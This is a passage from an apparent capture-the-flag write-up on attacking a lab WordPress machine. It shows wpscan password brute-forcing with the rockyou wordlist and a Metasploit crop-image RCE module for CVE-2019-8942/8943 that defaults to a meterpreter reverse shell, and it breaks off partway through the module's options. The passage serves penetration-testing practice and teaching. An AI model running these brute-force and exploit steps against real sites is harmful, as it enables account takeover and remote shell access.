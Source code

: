 As we have 2 usernames, let's save them!

````commandline
echo "[REDACTED]" >> usernames.txt
echo "[REDACTED]" >> usernames.txt
````

As this seems to be a fairly simple website, and from the info we have so far. We could try to brute force this. This sound crazy as we barely gathered information so far. For this we can make use of `wpsccan`, but we absolutely need to make use of the argument and flag `--password-attack wp-login`. Otherwise, it will try different login methods and will be as slow as a `hydra` attack on `WordPress`.

````commandline
wpscan -U usernames.txt -P /usr/share/wordlists/rockyou.txt --password-attack wp-login --url http://10.10.207.227
````

After a few minutes, got the `WordPress` password for the user `[REDACTED]`, but this user seems to be just a user, without admin rights. Shoot, no fancy web shell today! We need super cow power to get something done.

Have redone the same user attack with `wpscan` on the other user `[REDACTED]`, but after a bit more than `10.000` different passwords attempts with the `rockyou.txt` file, I have given it up. For CTFs, it usually does not last that long. Also ran a `gobuster` enumeration, but that computer showed me his middle finger in the middle of the way. Or maybe he had no time to do that. He passed away for sure without banning me. That virtual Ubuntu computer seems not to be very stable. So fired up a new one. So if I forgot to change IPs in this writeup, you know why. So started over again some parts. At the same time the computer was thinking hard about passwords, I was looking around and found maybe something interesting in the [exploit-db](https://www.exploit-db.com/) with reference [EDB-ID46662](https://www.exploit-db.com/exploits/46662), about an interesting vulnerability [CVE-2019-8943](https://nvd.nist.gov/vuln/detail/CVE-2019-8943), [CVE-2019-8942](https://nvd.nist.gov/vuln/detail/CVE-2019-8942).

For this we need to use `msfconsole`. So let's go and use that module. We need to set the different variables; `USERNAME`, `PASSWORD`, `RHOSTS`, `LHOST` and then just fire the exploit and we get a remote meterpreter shell.

````commandline
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce               2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec  2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/wp_property_upload_exec

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
````